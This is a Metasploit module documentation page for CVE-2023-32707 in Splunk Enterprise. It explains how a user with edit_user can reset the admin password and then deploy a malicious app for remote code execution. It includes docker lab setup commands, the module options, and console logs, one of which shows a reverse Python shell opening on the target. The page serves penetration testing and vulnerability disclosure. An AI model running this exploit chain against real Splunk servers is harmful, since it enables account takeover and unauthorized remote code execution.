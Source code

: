 ## Vulnerable Application

### Description

An authorization issue within Splunk Enterprise allows any user with the edit_user capability to take over
the admin account (or any other chosen account) by simply changing its password.

On June 1, 2023, Splunk released a software update that addressed this vulnerability (CVE-2023-32707).

The following products are affected:

Splunk Enterprise:
 - from 8.1 before 8.1.14
 - from 8.2 before 8.2.11
 - from 9.0 before 9.0.5

Splunk Cloud Platform:
 - before 9.0.2303.100

### Exploitation

This module exploits this authorization issue to take over the admin account (or any other account with
the capability `install_apps`) to deploy an app within Splunk, aiming to achieve remote code execution.

To achieve that this module:
- Will change the password of the targeted user;
- Will deploy an app with a malicious payload;

After the execution the cleanup method will be called and:
- Should delete the deployed app;

### Setup

Create a Splunk's docker container with the following command:

```bash
    docker run --rm -p 8000:8000 -p 8089:8089 -e "SPLUNK_START_ARGS=--accept-license" -e "SPLUNK_PASSWORD=password" --name splunk-9.0.4 splunk/splunk:9.0.4
```

```bash
    # Creating non-admin user
    $ curl -k -u admin:password https://localhost:8089/services/authentication/users -d name=redway -d password=changeme -d roles=user -d createrole=1 -X POST
    # Adding capability to edit_user to the non-admin role
    $ curl -k -u admin:password https://localhost:8089/services/authorization/roles/user-redway -d capabilities=edit_user -X POST
```

:exclamation: One must log in at least once on the web interface (https://localhost:8000). Otherwise, this module will fail to get the CSRF
token on the `appinstall`.

## Verification Steps
Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### USERNAME (required)

The username that with the capability `edit_user` to authenticate with.

### PASSWORD (required)

The password of the user to authenticate with.

### RHOSTS (required)

The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html

### RPORT (required)

The target port (TCP)

### TARGET_USER (required)

The username to change the password for (default: admin)

### TARGET_PASSWORD

The new password to set for the admin user (default: random)

### APP_NAME

The name of the app to upload (default: random)

## Scenarios

### Docker container running Splunk 9.0.4


If the user you have access doen't have the capability `edit_user` the module will fail as shown below:

```
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > check

[*] Splunk version 9.0.4 detected
[*] 127.0.0.1:8000 - The target is not exploitable. User 'redway' does not have 'edit_user' capability
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) >

```

If the targeted user does have the capability `install_apps` the module will fail as shown below:

```
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Splunk version 9.0.4 detected
[+] The target appears to be vulnerable. User 'redway' has 'edit_user' capability
[*] Changing 'user' password to yMDIOKyrHoUx
[+] Password of the user 'user' has bee changed to yMDIOKyrHoUx
[-] Exploit aborted due to failure: bad-config: The user 'user' does not have 'install_app' capability. You may consider to target other user
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) >
```

```
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > options

Module options (exploit/multi/http/splunk_privilege_escalation_cve_2023_32707):

   Name             Current Setting      Required  Description
   ----             ---------------      --------  -----------
   APP_NAME                              no        The name of the app to upload (default: random)
   PASSWORD         changeme             yes       The password for the specified username
   Proxies          http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           127.0.0.1            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT            8000                 yes       The target port (TCP)
   SSL              false                no        Negotiate SSL/TLS for outgoing connections
   TARGET_PASSWORD                       no        The new password to set for the admin user (default: random)
   TARGET_USER      admin                yes       The username to change the password for (default: admin)
   USERNAME         redway               yes       The username with "edit_user" role to authenticate as
   VHOST                                 no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.17.0.1       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/sh          yes       The system shell to use


Exploit target:

   Id  Name
   --  ----
   0   Splunk <= 9.0.5, 8.2.11, and 8.1.14 / Linux



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Splunk version 9.0.4 detected
[+] The target appears to be vulnerable. User 'redway' has 'edit_user' capability
[*] Changing 'admin' password to srviInIpi
[+] Password of the user 'admin' has bee changed to srviInIpi
[*] Uploading app stringtough
[*] Uploading file stringtough
[*] Creating an application package named: stringtough
[+] stringtough successfully uploaded
[*] Waiting for session
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:52672) at 2023-09-12 15:19:53 +0200

id
uid=41812(splunk) gid=41812(splunk) groups=41812(splunk),999(ansible)
pwd
/opt/splunk/etc/apps/stringtough/bin
exit
[*] 127.0.0.1 - Command shell session 1 closed.
```

### Docker container running Splunk 9.0.5

On a **non-vulnerable** version the module will fail as shown below:

```
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit 

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. Detected Splunk version 9.0.5 which is not vulnerable ForceExploit is enabled, proceeding with exploitation.
[*] Changing 'admin' password to iDKBmVsj
[-] Exploit aborted due to failure: unexpected-reply: Unable to change admin's password.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > set ForceExploit true
ForceExploit => true
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit 

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. Detected Splunk version 9.0.5 which is not vulnerable ForceExploit is enabled, proceeding with exploitation.
[*] Changing 'admin' password to scupUXtcV
[-] Exploit aborted due to failure: unexpected-reply: Unable to change admin's password.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > 
```
